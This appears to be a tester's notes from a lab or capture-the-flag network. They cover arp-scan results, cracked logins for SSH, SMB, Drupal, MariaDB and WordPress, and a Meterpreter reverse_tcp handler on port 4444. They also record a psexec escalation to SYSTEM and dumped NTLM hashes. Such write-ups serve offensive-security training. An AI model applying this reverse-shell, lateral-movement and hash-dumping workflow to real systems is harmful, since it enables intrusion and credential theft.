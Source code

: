 
initial arp scan

Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.100.1   06:6a:02:d7:6e:c6       (Unknown: locally administered)
192.168.100.50  06:da:c3:e0:c5:80       (Unknown: locally administered)
192.168.100.51  06:b8:59:cb:6f:a2       (Unknown: locally administered)
192.168.100.52  06:49:d3:a1:24:70       (Unknown: locally administered)
192.168.100.55  06:37:d5:d2:7f:b2       (Unknown: locally administered)
192.168.100.63  06:f1:4e:e4:c9:98       (Unknown: locally administered)
192.168.100.67  06:07:3b:8e:3c:e0       (Unknown: locally administered)

hosts on initial network

192.168.100.1
192.168.100.5 - ME
192.168.100.50
192.168.100.51
192.168.100.52
192.168.100.55
192.168.100.63
192.168.100.67

initial nmap scans

## creds

superman         (admin)     
diamond          (mike)     
greenday         (vince)     
[22][ssh] host: 192.168.100.52   login: auditor   password: qwertyuiop - this is also login for drupal
dbadmin:sayang
steven:bonita
root: - credentials mariadb

admin:estralla - wp-admin password
192.168.100.50
=

name: Computer        : WINSERVER-01

## connect with persistence sevice
port 4444
multi/handler - windows/meterpreter/reverse_tcp


## credentials found 
[445][smb] host: 192.168.100.50   login: admin   password: superman
gained root with psexec through smb - NT AUTHORITY\SYSTEM

## Hashes
admin:1011:aad3b435b51404eeaad3b435b51404ee:72f5cfa80f07819ccbcfb72feb9eb9b7:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mike:1009:aad3b435b51404eeaad3b435b51404ee:c7bad7d1cc2f3c69adea5ccb429234ad:::
vince:1010:aad3b435b51404eeaad3b435b51404ee:c9b30a86acaea990bf9fa6c35ac9dd92:::
